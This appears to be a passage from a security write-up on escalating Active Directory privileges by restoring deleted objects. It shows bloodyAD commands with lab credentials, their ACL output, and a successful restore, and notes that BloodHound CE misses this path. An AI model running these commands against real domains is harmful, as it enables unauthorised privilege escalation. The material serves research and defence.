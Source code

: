 ```powershell
nTSecurityDescriptor.Control: DACL_PRESENT|SELF_RELATIVE
[...]
nTSecurityDescriptor.ACL.28.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.28.Trustee: john
nTSecurityDescriptor.ACL.28.Right: GENERIC_ALL
nTSecurityDescriptor.ACL.28.ObjectType: Self
nTSecurityDescriptor.ACL.28.Flags: CONTAINER_INHERIT; INHERITED
[...]

$ bloodyAD --host 192.168.100.3 -d bloody -u john -p 'Password123!' get object 'CN=Users,DC=bloody,DC=corp' --attr ntsecuritydescriptor --resolve-sd

distinguishedName: CN=Users,DC=bloody,DC=corp
nTSecurityDescriptor.Owner: Domain Admins
nTSecurityDescriptor.Control: DACL_AUTO_INHERITED|DACL_PRESENT|SACL_AUTO_INHERITED|SELF_RELATIVE
[...]
nTSecurityDescriptor.ACL.3.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.3.Trustee: john
nTSecurityDescriptor.ACL.3.Right: CREATE_CHILD
nTSecurityDescriptor.ACL.3.ObjectType: Self
nTSecurityDescriptor.ACL.3.Flags: CONTAINER_INHERIT
[...]
```
{{% callout note %}}
By default, only Domain Admins are able to list and restore deleted objects.
{{% /callout %}}

SharpHound does not retrieve deleted objects even when run as Domain Admin, despite documentation suggesting it could ([see BloodHound docs](https://bloodhound.specterops.io/collect-data/permissions#granting-access-to-the-deleted-objects-container-optional)).  
So BloodHound CE **cannot** detect privilege escalation opportunities from deleted objects.

## Real-World Scenarios

Once an attacker ensures they have enough rights on a deleted object and an OU, and the **Restore Tombstoned** right:

````powershell
$ bloodyAD --host 192.168.100.3 -d bloody -u john -p 'Password123!' get writable --include-del
[...]
distinguishedName: CN=garbage.admin\0ADEL:c9e8a129-f77f-4159-b700-3c8fd06963fe,CN=Deleted Objects,DC=bloody,DC=corp
permission: WRITE
[...]
DistinguishedName: CN=Users,DC=bloody,DC=corp
permission: CREATE_CHILD
````

They can recover the object easily using the sAMAccountName or objectSID:

````powershell
$ bloodyAD -u john -d bloody -p 'Password123!' --host 192.168.100.3 set restore 'S-1-5-21-1394970401-3214794726-2504819329-1104'

[+] S-1-5-21-1394970401-3214794726-2504819329-1104 has been restored successfully under CN=garbage.admin,CN=Users,DC=bloody,DC=corp
````
